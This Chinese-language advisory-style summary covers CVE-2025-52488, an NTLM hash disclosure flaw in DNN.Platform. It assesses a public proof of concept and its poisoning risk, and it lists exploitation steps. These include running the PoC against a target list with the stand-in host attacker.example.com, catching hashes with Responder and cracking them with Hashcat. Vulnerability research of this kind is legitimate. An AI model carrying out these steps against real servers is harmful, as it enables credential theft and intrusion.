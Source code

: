 ## CVE-2025-52488-DNN.Platform-NTLM Hash Disclosure

**漏洞编号:** CVE-2025-52488

**漏洞类型:** NTLM Hash Disclosure

**影响应用:** DNN.Platform

**危害等级:** 高危，可能导致权限提升和横向渗透

**影响版本:** 6.0.0 to before 10.0.1

**利用条件:** 需要网络访问，目标服务器运行受影响的DNN版本，攻击者控制的SMB服务器

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2025-52488是DNN平台中的一个漏洞，攻击者可以通过精心构造的恶意交互，将NTLM哈希暴露给第三方的SMB服务器。该漏洞利用了Windows/.NET框架的特性和Unicode路径规范化中的缺陷，迫使目标DNN服务器向攻击者控制的服务器发起SMB请求，并在身份验证过程中泄露NTLM哈希。

**有效性评估：**

*   提供的POC代码能够通过构造特定的请求，诱使DNN服务器向攻击者控制的SMB服务器发起连接，从而捕获NTLM Hash。
*   搜索引擎结果也证实了该漏洞的存在和危害，并提供了缓解措施。
*   漏洞库信息明确指出该漏洞的成因和受影响的版本范围。

综合来看，该POC代码是有效的。

**投毒风险分析：**

POC代码的主要功能是发送精心构造的请求，并监听SMB流量以捕获NTLM哈希。代码中可能存在以下潜在的投毒风险：

1.  **依赖项风险：** `requirements.txt` 文件中可能包含恶意或受污染的第三方库，这些库可能被用于执行恶意操作。
2.  **SMB服务器交互：**  POC代码需要连接攻击者控制的SMB服务器，如果该服务器被篡改或存在漏洞，可能导致攻击者主机受到攻击。
3. **编码问题:**  代码存在一些编码问题,例如Logger类中的`w`函数未完成,这可能导致一些错误。

根据代码分析和已知的漏洞利用方式，投毒风险较低，大约为10%。大部分代码逻辑集中在漏洞利用本身，没有明显的后门或恶意代码。

**利用方式：**

1.  **目标确定：** 确定运行DNN平台且版本在6.0.0到10.0.1之间的目标服务器。
2.  **SMB服务器搭建：** 搭建一个SMB服务器，例如使用Responder或Burp Collaborator，用于捕获NTLM哈希。
3.  **目标列表准备：** 创建一个包含目标URL的文本文件（targets.txt），每行一个URL。
4.  **漏洞利用：** 运行POC代码，指定目标列表文件和SMB服务器地址。例如：`python main.py targets.txt attacker.example.com`
5.  **NTLM哈希捕获：** 监控SMB服务器，等待目标服务器发起连接并捕获NTLM哈希。
6.  **哈希破解：** 使用哈希破解工具（例如Hashcat）破解捕获到的NTLM哈希，获取用户凭据。

攻击者可以利用获取到的用户凭据登录DNN平台，进行恶意操作，例如数据窃取、篡改或植入恶意代码。

**项目地址:** [SystemVll/CVE-2025-52488](https://github.com/SystemVll/CVE-2025-52488)

**漏洞详情:** [CVE-2025-52488](https://nvd.nist.gov/vuln/detail/CVE-2025-52488)